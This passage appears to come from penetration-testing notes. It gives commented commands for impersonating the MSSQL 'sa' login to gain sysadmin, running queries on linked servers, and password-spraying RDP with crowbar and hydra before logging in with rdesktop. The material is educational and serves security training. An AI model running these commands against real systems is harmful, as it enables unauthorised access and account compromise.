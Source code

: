 * Impersonate users in MSSQL:

  ```sh
  # move to master DB since all users have access to this DB
  USE master
  GO

  # first, identify users that can be impersonated
  SELECT distinct b.name
  FROM sys.server_permissions a
  INNER JOIN sys.server_principals b
  ON a.grantor_principal_id = b.principal_id
  WHERE a.permission_name = 'IMPERSONATE'
  GO

  # verify if we have sysadmin role
  SELECT SYSTEM_USER
  SELECT IS_SRVROLEMEMBER('sysadmin')
  GO

  # even if we are not sysadmin, we can impersonate one of the users from earlier command
  # suppose we can impersonate 'sa'
  EXECUTE AS LOGIN = 'sa'
  SELECT SYSTEM_USER
  SELECT IS_SRVROLEMEMBER('sysadmin')
  GO
  ```

* Communicate with other DBs in MSSQL:

  ```sh
  # identify linked servers
  SELECT srvname, isremote FROM sysservers
  GO

  # 1 indicates remote server
  # and 0 indicates linked server

  # we can pass commands to linked server
  EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
  GO
  ```

## RDP

* Attacking RDP:

  ```sh
  # enumeration
  nmap -Pn -p3389 192.168.2.143

  # password spraying using crowbar
  crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

  # password spraying using hydra
  hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp

  # once we have the right creds, we can use tools like rdesktop or xfreerdp to login
  rdesktop -u admin -p password123 192.168.2.143
  ```
